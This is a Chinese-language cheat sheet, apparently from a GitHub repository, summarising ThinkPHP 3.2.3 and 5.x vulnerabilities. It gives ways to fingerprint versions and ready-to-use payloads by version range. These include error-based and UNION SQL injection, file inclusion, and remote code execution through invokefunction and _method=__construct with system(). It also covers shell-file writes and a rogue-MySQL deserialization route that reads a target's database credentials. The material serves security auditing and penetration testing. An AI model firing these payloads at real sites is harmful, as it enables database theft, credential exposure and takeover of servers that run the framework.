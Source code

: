 # ThinkPHP总结

介绍：这是一篇tp的漏洞总结，以及一些自己遇到过或思考过的tricks，

查找漏洞建议直接页面搜索版本号，例如这些关键字：5.1、5.0、3.2

---

问题：如何判断TP版本？

-   黑盒
    -   构造请求错误，如果目标错误管理不规范就可能显示tp版本信息
    -   请求`App/Runtime/Logs/Home/22_05_12.log`当天日志（tp3）
    -   请求`runtime/log/202205/12.log`当天日志（tp5）
-   白盒
    -   全局搜索`THINK_VERSION`（tp3），或者`VERSION`（tp5）
    -   看控制器方法的写法：类似M(xxxx)这种用一个大写字母来实例化（tp3）
-   开源的系统可以尝试去该系统的官网or站长下载这类源码站看系统介绍

## thinkphp5

### 注入类

```php
不开启debug和trace，只开启show_error_msg显示错误信息也可尝试利用报错注入
利用条件：需要有注入的tp版本，或者是二开代码中有可控输入+直接拼接。
# 判断开启show_error_msg是否开启？
1. 请求一个不存在的控制器或方法，如/user/userabc/index.html
2. 关闭时只会提示：页面错误！请稍后再试～
	开启时会提示：控制器不存在:app\user\controller\Userabc
# 实际案例：kyxscms（基于TP5.1.33，虽然开启了show_error_msg但是没有利用条件，本人在某次项目中看到有基于kyxscms二开的一个系统符合“二开代码中有可控输入+直接拼接”这个条件。）
```

```php
# 摘自吐司https://www.t00ls.com/viewthread.php?tid=65613
# 5.0.5左右的低版本
id=input("id");
data=db("users")->where("id",$id)->find();
```

```php
# 版本：5.0.13<=ThinkPHP<=5.0.15、 5.1.0<=ThinkPHP<=5.1.5
payload：/public/index.php/index/index？username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1
# 代码：
$username = request()->get('username/a');
db('users')->insert(['username' => $username]);
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之SQLI审计分析(一).md
```

```php
# 版本：ThinkPHP=5.0.10
payload：/public/index.php/index/index?username[0]=not like&username[1][0]=&username[1][1]=&username[2]=) union select 1,user()--+
# 代码：
$username = request()->get('username/a');
$result = db('users')->where(['username' => $username])->select();
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之SQLI审计分析(二).md
```

```php
# 版本：ThinkPHP=5.1.22
payload：/public/index.php/index/index?orderby[id`|updatexml(1,concat(0x7,user(),0x7e),1)%23]=1
# 代码：
$orderby = request()->get('orderby');
$result = db('users')->where(['username' => 'mochazz'])->order($orderby)->find();
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之SQLI审计分析(三).md
```

```php
# 不同版本 payload 需稍作调整：
5.0.0~5.0.21 、 5.1.3～5.1.10 ： id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23
5.1.11～5.1.25 ： id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23
# 代码：
$options = request()->get('options');
$result = db('users')->max($options);
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之SQLI审计分析(四).md
```

```php
# 注意有没有直接拼接
	$id=$this->request->param('id'); # 这里是直接用request->param，默认也没有过滤器。
	$result = Db::table('users')->where("id=". $id)->find(); # 没有以数组形式传入where导致注入，
```

### getshell类

RCE的洞，黑盒测试的话直接上工具就行吧。

```php
# 文件包含
# 版本：5.0.0<=ThinkPHP5<=5.0.18 、5.1.0<=ThinkPHP<=5.1.10
payload：/index/index?cacheFile=1.jpg即可包含1.jpg
# 代码：
$this->assign(request()->get());
return $this->fetch(); // 当前模块/默认视图目录/当前控制器（小写）/当前操作（小写）.html
return $this->display(); //display方法也可以触发漏洞
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之文件包含审计分析(五).md
```

```php
# 代码执行
# 不同版本 payload 需稍作调整：
# ThinkPHP <= 5.0.13：
POST /?s=index/index
s=whoami&_method=__construct&method=&filter[]=system

# ThinkPHP <= 5.0.23、5.1.0 <= 5.1.16 需要开启框架app_debug
POST /
_method=__construct&filter[]=system&server[REQUEST_METHOD]=ls -al

# ThinkPHP <= 5.0.23 需要存在xxx的method路由，例如captcha
POST /?s=captcha HTTP/1.1
_method=__construct&filter[]=system&method=get&get[]=ls+-al
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls

# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之任意方法调用RCE(六).md
```

```php
# 代码执行
# 不同版本 payload 需稍作调整：
5.1.x ：
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id

5.0.x ：
?s=index/think\config/get&name=database.username # 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5漏洞分析之代码执行(七).md
```

[5.0.X反序列化利用链](https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5.0.X%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE.md)

[5.1.X 反序列化链子](https://github.com/lu2ker/PHP-Code/blob/main/TP5%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE.md)

[5.2.X反序列化利用链](https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5.2.X%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE.md)

[链子集合](https://github.com/ambionics/phpggc/tree/master/gadgetchains/ThinkPHP)

推荐阅读：

[挖掘暗藏ThinkPHP中的反序列利用链](https://blog.riskivy.com/%e6%8c%96%e6%8e%98%e6%9a%97%e8%97%8fthinkphp%e4%b8%ad%e7%9a%84%e5%8f%8d%e5%ba%8f%e5%88%97%e5%88%a9%e7%94%a8%e9%93%be/)

## thinkphp3.2.3

### 注入类

```php
# exp注入
$id = $_GET['id'];
$Admin = D("admin");
$data = $Admin->where(['Id' => $id])->limit('2')->select();

# payload：?id[0]=exp&id[1]==1 UNION ALL SELECT 1,2,3
# 两个等号，没错。具体分析看这里
# https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP3之SQLI审计分析.md
```

```php
# order by注入
$username=I("username");
$order=I("order");
$result= M('users')->where(array("username"=>$username))->order($order)->find();

# payload：username=admin&order[extractvalue(1,concat(0x7e,(select+database())))]
# 分析&实际案例：https://althims.com/2020/02/03/xyhcms-3-6/#xyhcms-v3-6-前台sql注入
```

下面这些摘自土司@[H0ward](https://www.t00ls.com/viewthread.php?tid=65613)

```php
# 框架级漏洞
$id=I('post.id');
$list = M('system_skin')->find($id);//select() delect()都会有问题
# payload:
id[where]=1’and
id[alias]=where 1 and
id[table]=users where 1 and

# save注入
$comdition["username"]=I("username");
$data["password"]=I("password");
$list = M('admin_user')->where($comdition)->save($data);
# payload:
username[0]=bind&username[1]=0+and(select+extractvalue(1,concat(0x7e,(select+database()))))&password=123   
```

```php
# 其余要注意的点
# 注意在对象创建的时候有没有用过滤器，没有的话输入就可控了。
	$id = I('id', 0, 'intval'); # 这是用了整数过滤器获取参数id
```

### getshell类

-   [反序列化POC](https://github.com/lu2ker/PHP-Code/blob/main/thinkphp3%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96POC.php)，利用方式为：

    -   用`rogue_mysql_server`开启一个恶意Mysql服务器，在配置文件中填入想要读取的文件，比如读取目标数据库配置文件拿到数据库账户密码;
    -   POC里修改数据库配置为你的恶意mysql；
    -   发送序列化payload，恶意MySQL服务器可以读取到目标数据库配置文件内容；
    -   将POC中的数据库连接配置替换为目标的数据库配置，可修改需要注入的SQL语句，
    -   因为`ThinkPHP v3.2.*`默认使用的是PDO驱动来实现的数据库类，因为PDO默认是支持多语句查询的，所以这个点是可以堆叠注入的。也就是说这里可以使用导出数据库日志等手段实现Getshell，或者使用`UPDATE`语句插入数据进数据库内等操作。

    条件：目标数据库账户必须是root

    实际案例：[XYHCMS前台反序列化](https://github.com/M00nBack/vulnerability/tree/main/xyhcms/XYHCMS%E5%89%8D%E5%8F%B0%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96)
